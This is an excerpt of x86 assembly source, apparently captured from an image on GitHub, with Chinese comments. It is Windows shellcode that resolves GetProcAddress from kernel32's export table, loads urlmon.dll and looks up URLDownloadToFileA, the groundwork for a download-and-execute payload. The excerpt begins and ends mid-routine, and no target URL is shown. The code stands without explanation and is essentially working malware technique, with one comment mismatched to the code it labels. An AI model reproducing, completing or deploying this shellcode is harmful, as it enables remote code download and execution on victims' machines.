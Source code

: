 ```assembly
        inc ecx;
        lodsd;
        add eax, ebx;
        xor edi, edi;
        push edi;
        push 63h;
        push word ptr 6578h;
        mov edi, [esp];
        add esp, 0Ah;
        ; compare WinExec name;
        cmp dword ptr[eax], 0x50746547; 'PteG'
        jnz Fetch_Func;
        cmp dword ptr[eax + 4], 0x41636f72; 'Acor'
        jnz Fetch_Func;

        ; Get Ordinal from AddressOfNameOrdinals;
        mov esi, [edx + 24h];
        add esi, ebx;
        mov cx, [esi + 2 * ecx];
        ; Get Address from AddressOfFunctions;
        mov esi, [edx + 1Ch];
        add esi, ebx;
        mov edx, [esi + ecx * 4];
        add edx, ebx; GetProcAddress 地址
        ; 调用GetProcAddress查找LoadLibraryA
        xor ecx, ecx
        push ebx; kernal32 基址
        push edx; GetProcAddress地址
        push ecx; 0
        push 0x41797261; Ayra
        push 0x7262694c; rbiL
        push 0x64616f4c; daoL
        push esp; "LoadLibrary"
        push ebx; kernal32.dll基址
        call edx
        add esp, 0xc
        ; 调用LoadLibrary载入urlmon.dll
        pop ecx
        push eax
        push ecx
        mov cx, 0x6c6c; ll
        push ecx
        push 0x642e6e6f; d.no
        push 0x6d6c7275; mlru
        push esp;  "urlmon.dll"
        call eax; LoadLibrary("urlmon.dll")
        add esp, 0x10
        ; 调用GetProcAddress查找URLDownloadToFileA地址
        mov edx, [esp + 0x4]
        xor ecx, ecx
        push ecx
        mov cx, 0x4165; Ae
        push ecx
        push 0x6c69466f; liFo
        push 0x5464616f; Tdao
        push 0x6c6e776f; lnwo
        push 0x444c5255; DLRU
        push esp; "URLDownloadToFileA"
        push eax; urlmon.dll地址
        call edx
        add esp, 0x18;
        mov edx, [esp + 0x4]

```